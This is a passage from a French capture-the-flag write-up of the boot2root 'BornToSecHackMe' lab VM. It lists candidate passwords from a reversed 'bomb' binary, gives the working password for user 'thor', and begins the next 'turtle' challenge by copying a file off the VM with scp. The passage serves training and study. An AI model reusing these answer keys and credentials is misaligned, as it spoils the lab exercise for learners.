6 node et 6 valeurs. Le premier int etant 4, nous remarquons que le node4 est le lus grand des 6. Essayons de mettre les nodes dans le bon ordre du plus grand au plus petit : 4 2 6 3 1 5
Et c'est bon nous avons reussi la challenge.

Mettons toutes les valeurs possibles des differents password pour tous les tester, il y aura 3 * 4 possibilités :
```
Publicspeakingisveryeasy.126241207201b2149opekma426315
Publicspeakingisveryeasy.126241207201b2149opekmq426315
Publicspeakingisveryeasy.126241207201b2149opukma426315
Publicspeakingisveryeasy.126241207201b2149opukmp426315
Publicspeakingisveryeasy.126241207202b7559opekma426315
Publicspeakingisveryeasy.126241207202b7559opekmq426315
Publicspeakingisveryeasy.126241207202b7559opukma426315
Publicspeakingisveryeasy.126241207202b7559opukmq426315
Publicspeakingisveryeasy.126241207207b5249opekma426315
Publicspeakingisveryeasy.126241207207b5249opekmq426315
Publicspeakingisveryeasy.126241207207b5249opukma426315
Publicspeakingisveryeasy.126241207207b5249opukmq426315
```

Aie aucune combinaison n'est la bonne ... Pourtant tout est bon .. il doit donc y avoir une erreur dans le sujet ??

Apres plusieurs essais nous tombons sur la bonne combinaison qui se termine par 426135, bizarre avec pour la phase 3 la combinaison 1 b 214
su thor
Password : Publicspeakingisveryeasy.126241207201b2149opekmq426135

### THOR

Nous sommes ici encore une fois en présence d'un README et fichier turtle.
```
thor@BornToSecHackMe:~$ cat README
Finish this challenge and use the result as password for 'zaz' user.
```
Le fichier turtle me fait penser au module graphique python turtle qui est utilisé pour "deplacer" une tortue sur l'écran et ainsi former un dessin.

Essayons d'utiliser ce module sur le fichier pour voir le resultat. On va donc recuperer le fichier sur notre VM Kali Linux :

```
scp thor@192.168.1.27:~/turtle ~/boot2root/
```

Ensuite on va créer un petit programme en python pour voir ce que ca donne 

